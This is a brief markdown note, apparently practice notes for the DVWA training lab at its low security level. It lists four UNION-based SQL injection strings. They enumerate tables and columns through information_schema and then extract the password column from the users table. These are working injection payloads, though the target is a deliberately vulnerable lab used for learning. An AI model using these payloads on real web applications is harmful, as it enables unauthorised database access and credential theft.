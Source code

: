 # CyberSecurity

<h3>low security level</h3>

- To find all tables, from a database called “dvwa”: 
`1' UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema = 'dvwa'#`

 - To find all columns, from the database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema ='dvwa'#`

 - To find all column names of the table named “users”, from a database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'dvwa'#`

 - To get the content of one column of the table named “users”, from a database called “dvwa”: `1' UNION SELECT password,null FROM dvwa.users#`
